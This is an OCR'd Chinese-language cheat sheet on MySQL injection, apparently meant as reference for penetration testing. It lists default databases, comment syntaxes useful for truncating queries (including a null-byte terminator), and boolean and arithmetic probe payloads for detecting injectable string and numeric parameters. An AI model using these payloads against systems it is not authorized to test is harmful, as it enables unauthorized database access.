 ## MYSQL 默认数据库

| 名称               | 描述              |
|--------------------|------------------|
| mysql              | 需要 root 权限    |
| information_schema | 从版本 5 及以上可用 |

## MYSQL 注释

MySQL 注释是 SQL 代码中的注释，在 MySQL 服务器执行期间会被忽略。

| 类型                       | 描述                       |
|----------------------------|---------------------------|
| `#`                        | 单行注释                   |
| `/* MYSQL 注释 */`         | C 风格注释                 |
| `/*! MYSQL 特殊 SQL */`    | 特殊 SQL                   |
| `/*!32302 10*/`            | MYSQL 3.23.02 版本注释     |
| `--`                       | SQL 注释                   |
| `;%00`                     | Nullbyte                   |
| \`                         | 回溯符                     |

## MYSQL 测试注入

* **字符串**: 查询如 `SELECT * FROM 表 WHERE id = 'FUZZ';`

    ```ps1
    ' False
    '' True
    " False
    "" True
    \ False
    \\ True
    ```

* **数值**: 查询如 `SELECT * FROM 表 WHERE id = FUZZ;`

    ```ps1
    AND 1     True
    AND 0     False
    AND true True
    AND false False
    1-false     如果易受攻击则返回 1
    1-true     如果易受攻击则返回 0
    1*56     如果易受攻击则返回 56
    1*56     如果不易受攻击则返回 1
    ```
